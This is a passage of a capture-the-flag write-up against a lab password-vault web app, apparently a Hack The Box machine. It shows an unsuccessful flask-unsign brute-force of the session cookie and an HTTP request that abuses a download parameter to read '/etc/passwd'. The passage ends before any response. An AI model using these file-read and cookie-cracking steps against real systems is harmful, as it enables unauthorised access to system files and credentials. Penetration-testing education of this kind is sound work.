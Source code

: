 
Once logged in, I was able to add passwords to the vault, and export them.

I tried using `flask-unsign` to crack the Flask session cookie with no luck.

```bash
$ flask-unsign --unsign --cookie '.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d_0Bt8flrUuKQ.ZBWqpA.WZ-VyfH3Row6THCWm9FyCNu6QAE' --wordlist /usr/share/seclists/rockyou.txt --no-literal-eval

[*] Session decodes to: {'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '10'}
[*] Starting brute-forcer with 8 threads..
[!] Failed to find secret key after 14344391 attempts.
```

## Export
I added a password and tried to export it. The export button sent a GET request to '/vault/export', and I got redirected to the download URL.

```http
HTTP/1.1 302 FOUND
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Apr 2023 13:25:16 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 265
Connection: close
Location: /download?fn=eric_export_13aadad0bc.csv
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/download?fn=eric_export_13aadad0bc.csv">/download?fn=eric_export_13aadad0bc.csv</a>. If not, click the link.
```

The URL I was redirected to was interesting. It contained my username, the word 'export', and what looked like 10 random characters.

The other interesting part of the URL is that the `fn` parameter looked like it could be used to read files from the server. I tried reading '/etc/passwd'.

```http
GET /download?fn=/etc/passwd HTTP/1.1
Host: superpass.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=.eJwljsFqwzAQRH9F7DkUSSvvav0VvZcQ1tIqNrhNsZxTyL9X0NMwvGF4L7i1XftqHeavF7hzBHxb73o3uMDnbtrN7Y-7237c-XBayoDuXLfufsfmA67v62WcHNZXmM_jaaNtFWZgREP0ylbEKpmmmBDFB2mMlLilFiMGqSoyaONMOUSORSPpotWYCqsoikplzySpUsuNfJTiU8rRQuZlqpITYdaJsHGYfKS6SBEa-rdnt-PfRuD9B50hRQ4.ZDvz-A.3Ri1VIq6RfG6L31fotq9jVmQUnQ; remember_token=9|06f2a54da39a00d8b83c296b2cdd42872300f44c0adc8b2eb5204fa4d009f3c0894223a3fdddb0bf8d957de25bf18b176382eebe3b42102eef98a381fc28b4d1
Upgrade-Insecure-Requests: 1
```
